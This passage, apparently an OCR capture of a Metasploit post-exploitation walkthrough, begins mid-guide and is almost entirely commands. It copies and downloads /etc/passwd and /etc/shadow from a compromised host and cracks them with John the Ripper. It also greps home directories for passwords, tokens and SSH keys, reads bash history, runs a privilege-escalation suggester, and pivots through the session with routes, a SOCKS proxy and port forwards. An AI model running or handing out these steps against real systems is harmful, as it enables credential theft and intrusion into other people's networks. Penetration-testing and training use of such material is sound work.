 ```
run
```
If you have root shell, you can manually pull passwd/shadow for cracking:
```
sessions -i SESSION_ID
shell
cp /etc/passwd /tmp/passwd.copy 2>/dev/null
cp /etc/shadow /tmp/shadow.copy 2>/dev/null
exit
download /tmp/passwd.copy
download /tmp/shadow.copy
```
Unshadow and crack locally:
```
unshadow passwd.copy shadow.copy > unshadowed.txt
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
```

Also check common plaintext/semi-secret locations (from a shell):
```
sessions -i SESSION_ID
shell
for u in /home/*; do ls -la $u/.ssh 2>/dev/null; done
grep -R "password\|passwd\|secret\|token\|api" -ni /home/* 2>/dev/null | head
for u in /home/*; do tail -n 100 $u/.bash_history 2>/dev/null; done
exit
```

5) Local exploit suggestion (privilege escalation hints)
```
use post/multi/recon/local_exploit_suggester
set SESSION SESSION_ID
run
```
Review suggestions, then test appropriate `exploit/linux/local/*` modules as indicated by the suggester results and target context.

6) Pivoting (routes and SOCKS)
- Add routes via the session:
```
route
route add 10.10.10.0 255.255.255.0 SESSION_ID
route print
```
Alternatively, use autoroute:
```
use post/multi/manage/autoroute
set SESSION SESSION_ID
set SUBNET 10.10.10.0
set NETMASK 255.255.255.0
run
```
- Start a SOCKS proxy inside Metasploit for tooling through the pivot:
```
use auxiliary/server/socks_proxy
set VERSION 5
set SRVHOST 127.0.0.1
set SRVPORT 1080
run -j
```
- Example local port forward from Meterpreter:
```
sessions -i SESSION_ID
portfwd add -l 8443 -p 443 -r 10.10.10.20
background
```
